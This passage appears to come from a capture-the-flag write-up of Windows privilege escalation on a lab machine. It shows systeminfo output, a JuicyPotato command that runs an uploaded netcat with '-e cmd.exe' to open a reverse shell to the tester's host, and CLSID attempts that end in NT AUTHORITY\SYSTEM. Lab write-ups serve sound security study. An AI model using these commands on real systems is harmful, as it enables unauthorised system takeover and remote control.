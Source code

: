 Available Physical Memory: 1,256 MB
Virtual Memory: Max Size:  3,199 MB
Virtual Memory: Available: 2,306 MB
Virtual Memory: In Use:    893 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.116
                                 [02]: fe80::4ccb:aafa:2793:40a8
                                 [03]: dead:beef::ccbd:7ffa:69d9:283f
                                 [04]: dead:beef::a947:36cc:c1a8:7109
                                 [05]: dead:beef::4ccb:aafa:2793:40a8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

````


run the exploit.
````
>jp.exe -l 9999 -p C:\inetpub\wwwroot\upload\nc.exe -a "10.10.14.30 54321 -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
````
````
nc -lvp 54321

type proot.txt
````




````
I can go to the JuicyPotato GitHub https://github.com/ohpe/juicy-potato/tree/master/CLSID
and find a list of CLSIDs for Windows 10 Enterprise https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise
I’ll try a few that run as “NT AUTHORITY\SYSTEM” until I get one to work.

C:\users\Destitute\appdata\local\Temp>jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}                                                                
jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}                                                                                                      
Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 9001
COM -> recv failed with error: 10038

C:\users\Destitute\appdata\local\Temp>jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}                                                                
jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}                                                                                                      
Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 9001
......
[+] authresult 0
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
